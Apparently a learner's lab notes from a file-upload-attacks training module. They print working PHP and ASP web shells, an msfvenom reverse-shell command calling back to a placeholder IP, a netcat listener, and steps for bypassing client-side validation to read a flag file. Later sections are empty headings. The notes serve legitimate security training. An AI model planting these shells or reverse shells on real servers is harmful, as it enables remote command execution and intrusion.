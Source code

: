 # Intro

## Intro

File uploads are a huge part of current web apps. Many apps allow a profile photo upload, or you might be able to upload documents like PDFs. However with this prevalence comes the risk of potential attacks.

File upload attacks are among the most common found vulnerabilities. And they are usually rated high or critical. Without proper validation, it can be possible to gain remote command execution on a server, or introduce other vulnerabilities. 

# Basic Exploitation

## Absent Validation

The first and most dangerous form of upload vuln, is absent validation. In this form we can upload any file type without restriction. If we cna identify what programming language is being run on the backend server we can possibly gain remote code execution.

One way to determine what language is being run on the backend is to check the index.[file extension] on the current page. We have done this in the past to fuzz for the server type. But this will not always be accurate, as sometimes they web app may not use index pages, or may use more than one web extension.

We can also use something like `https://www.wappalyzer.com/`, which is a browser extension that will tell you the backend server information.

If we do find a web page that seems to have no validation, the first thing we can do is test and see if there is any input validation by running something like `<?php echo "Hello HTB";?>` and visiting the resulting web page to see if it is displayed.

The question in this section is:
Try to upload a PHP script that executes the (hostname) command on the back-end server, and submit the first word of it as the answer.

Uploading a file containing:
``` PHP
<?php $var = gethostname(); echo $var;?>
```
Gets the answer.

## Upload Exploitation

After we find a vulnerable web app, we can attempt to get a web shell by uploading a malicious script. One good example of this is `https://github.com/Arrexel/phpbash` which is a php bash script.

But there are many more that we can find in SecLists. If we look in SecLists/Web-Shells we can find lots of web shells for all languages.

There is also a chance that we won't have access to online resources like these (for instance in a pen test), so knowing how to write a basic web shell is good. 

For PHP, uploading a file with:
``` PHP
<?php system($_REQUEST['cmd']); ?>
```
Will give command execution. The system() command runs system commands. And we can pass in a command using a get paramater (e.g. ?cmd=id).

Similarly we can do the same thing in ASP with:
``` ASP
<% eval request('cmd') %>
```

Now lets look at how we can get a reverse shell. First lets get a reverse shell script in PHP from `https://github.com/pentestmonkey/php-reverse-shell`

Once we copy this file over, we need to update the IP to ours and the port to the desired port. 

Then we can start a netcat listener, upload the file, and visit the page and it should work.

Like web shells, reverse shells may not always be easily accessible, and these are less easy to remember. Luckily we can use the msvenom to generate a reverse shell script.

We can generate a reverse shell for php using msvenom like:
`msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`

Then we can listen with netcat like:
`nc -lvnp OUR_PORT`

The question in this section is:
 Try to exploit the upload feature to upload a web shell and get the content of /flag.txt 

I uploaded the web shell we downloaded above and visited the page.

Then I ran:
```
ls

ls ..

ls ../../

ls ../../../

ls ../../../../

cat ../../../../flag.txt
```

# Bypassing Filters

## Client-Side Validation

Lots of web apps only perform input validation on the front end. However, this is easily bypassed by directly interacting with the server. Or we can modify the front-end code using the browsers dev tools.

If there is front-end validation that we need to deal with, we can intercept the request using Zap or Burp. Then we can select a valid formatted file, and before uploading, change the file to the one we really want. That will allow us to bypass the client-side validation.

The other option for bypassing this validation is to go into the dev tools and inspect the code that is checking the validation. We notice in the example in this section it is simply running a script to validate the extension of the file being uploaded. So we can simply modify this code to either allow our php extension or remove the check entirely.

The question in this seciton is:
Try to bypass the client-side file type validations in the above exercise, then upload a web shell to read /flag.txt (try both bypass methods for better practice) 

To get this I intercepted the upload on Burp and uploaded a file called shell.php with:
`<?php sytem($_REQUEST['cmd']); ?>` in the content.

Then I ran the same set of commands as above and got the answer.

## Blacklist Filters

## Whitelist Filters

## Type Filters

# Other Upload Attacks

## Limited File Uploads

## Out Upload Attacks

# Prevention

## Prevention

# Skill Assessment

## Skills Assessment
